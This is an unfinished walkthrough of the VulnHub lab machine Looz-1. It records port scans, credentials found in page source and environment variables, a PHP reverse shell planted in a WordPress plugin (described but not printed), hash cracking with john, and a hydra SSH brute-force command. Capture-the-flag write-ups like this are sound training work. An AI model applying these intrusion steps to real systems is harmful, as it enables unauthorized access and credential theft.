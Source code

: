# Looz - Not completed

![image](https://user-images.githubusercontent.com/5285547/129017281-3bfca710-1e46-4e57-bac6-7a1926977155.png)

Room link: https://www.vulnhub.com/entry/looz-1,732/

## Enum

Nmap 

```
PORT     STATE  SERVICE
22/tcp   open   ssh
80/tcp   open   http
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
3306/tcp open   mysql
8081/tcp open   blackice-icecap


PORT     STATE  SERVICE      VERSION
22/tcp   open   ssh          OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b4:80:23:86:76:97:19:09:9d:50:b1:94:c9:8d:a5:0c (RSA)
|   256 3d:52:5e:29:fb:2f:29:e8:01:e4:5d:1b:a1:1e:f3:4b (ECDSA)
|_  256 f0:f4:77:dc:3d:53:c3:c5:35:82:87:a5:ba:57:b4:49 (ED25519)
80/tcp   open   http         nginx 1.18.0 (Ubuntu)
|_http-generator: Nicepage 3.15.3, nicepage.com
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Home
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
3306/tcp open   mysql        MySQL 5.5.5-10.5.10-MariaDB-1:10.5.10+maria~focal
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.5.10-MariaDB-1:10.5.10+maria~focal
|   Thread ID: 13
|   Capabilities flags: 63486
|   Some Capabilities: IgnoreSpaceBeforeParenthesis, ConnectWithDatabase, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, LongColumnFlag, Speaks41ProtocolOld, SupportsTransactions, FoundRows, Support41Auth, ODBCClient, SupportsCompression, InteractiveClient, Speaks41ProtocolNew, IgnoreSigpipes, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: Mt~Ae[v`^78Qpar;l3U6
|_  Auth Plugin Name: mysql_native_password
8081/tcp open   http         Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Did not follow redirect to http://jetty/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Port 80

Main Page

![image](https://user-images.githubusercontent.com/5285547/129017511-3631397f-2b74-4d52-8cae-d4ab8b2c36a4.png)

Looking at the sourcecode of the page we see a password for a user John.

![image](https://user-images.githubusercontent.com/5285547/129017594-fe58c1bc-9223-459b-ac24-11f5d28b88dd.png)

```
john:y0uC@n'tbr3akIT
```

## Port 8081

I only got redirected back to port 80, so tried to brute force the directories. 

```
ffuf -u http://192.168.1.121:8081/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt

wp-admin                [Status: 301, Size: 324, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 327, Words: 20, Lines: 10]
wp-content              [Status: 301, Size: 326, Words: 20, Lines: 10]
server-status           [Status: 403, Size: 280, Words: 20, Lines: 10]
```

Going to http://192.168.1.121/wp-admin redirected me to 

```
http://wp.looz.com/wp-login.php?redirect_to=http%3A%2F%2Fjetty%3A8081%2Fwp-admin%2F&reauth=1
```

Adding wp.looz.com to /etc/hosts I can then see the login page. 

After loggin in as john, I seen akismet plugin was editable so added a PHP reverse shell to the plugin and updated the file. 
Activatiing the pluing after gave me the shell back. 

Time to enumerate the system to see what we can find. 

env

```
PHP_EXTRA_CONFIGURE_ARGS=--with-apxs2 --disable-cgi
APACHE_CONFDIR=/etc/apache2
MYSQL_ENV_GPG_KEYS=177F4010FE56CA3336300305F1656F24C74CD1D8
HOSTNAME=a5610f5f2480
PHP_INI_DIR=/usr/local/etc/php
MYSQL_ENV_MARIADB_VERSION=1:10.5.10+maria~focal
SHLVL=0
PHP_EXTRA_BUILD_DEPS=apache2-dev
OLDPWD=/var/www
MYSQL_ENV_MYSQL_DATABASE=wpdb
PHP_LDFLAGS=-Wl,-O1 -pie
APACHE_RUN_DIR=/var/run/apache2
PHP_CFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
PHP_VERSION=7.4.20
APACHE_PID_FILE=/var/run/apache2/apache2.pid
GPG_KEYS=42670A7FE4D0441C8E4632349E4FDC074A4EF02D 5A52880781F755608BF815FC910DEB46F53EA312
WORDPRESS_DB_PASSWORD=Ba2k3t
PHP_ASC_URL=https://www.php.net/distributions/php-7.4.20.tar.xz.asc
PHP_CPPFLAGS=-fstack-protector-strong -fpic -fpie -O2 -D_LARGEFILE_SOURCE -D_FILE_OFFSET_BITS=64
PHP_URL=https://www.php.net/distributions/php-7.4.20.tar.xz
TERM=xterm
WORDPRESS_DB_USER=dbadmin
MYSQL_PORT_3306_TCP_ADDR=172.17.0.2
MYSQL_ENV_MYSQL_ROOT_PASSWORD=root-password
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MYSQL_ENV_GOSU_VERSION=1.12
MYSQL_PORT_3306_TCP_PORT=3306
APACHE_LOCK_DIR=/var/lock/apache2
MYSQL_PORT_3306_TCP_PROTO=tcp
LANG=C
MYSQL_ENV_MARIADB_MAJOR=10.5
WORDPRESS_DB_NAME=wpdb
APACHE_RUN_GROUP=www-data
APACHE_RUN_USER=www-data
MYSQL_PORT=tcp://172.17.0.2:3306
MYSQL_ENV_MYSQL_PASSWORD=Ba2k3t
APACHE_LOG_DIR=/var/log/apache2
MYSQL_PORT_3306_TCP=tcp://172.17.0.2:3306
MYSQL_NAME=/wpcontainer/mysql
PWD=/var/www/html
PHPIZE_DEPS=autoconf            dpkg-dev                file            g++             gcc             libc-dev  make             pkg-config              re2c
MYSQL_ENV_MYSQL_USER=dbadmin
PHP_SHA256=1fa46ca6790d780bf2cb48961df65f0ca3640c4533f0bca743cd61b71cb66335
APACHE_ENVVARS=/etc/apache2/envvars
```

Found creds in the env, which also points to being in a docker container. 

Mysql

```
mysql -u dbadmin -p 
Ba2k3t
```

![image](https://user-images.githubusercontent.com/5285547/129023470-f4468619-6842-469c-aead-75080c6feab6.png)

![image](https://user-images.githubusercontent.com/5285547/129023572-fb616155-d3d8-4bf5-ae59-5dc601f93ac3.png)


## Password Crack. 

Having the hash for all the users, I managed to crack one called gandalf

gandolf:$P$BGOXSxRtzMKFKkRZ246loTIXH5AFQm/:PASSWORD_REDACTED

```
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

Trying this password for the ssh connection seemed to fail, so back to brute force of all users 

```
echo "john william james Evelyn Mason harper gandalf" | tr " " "\n" > users.txt
hydra  -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.121 -f -V
```

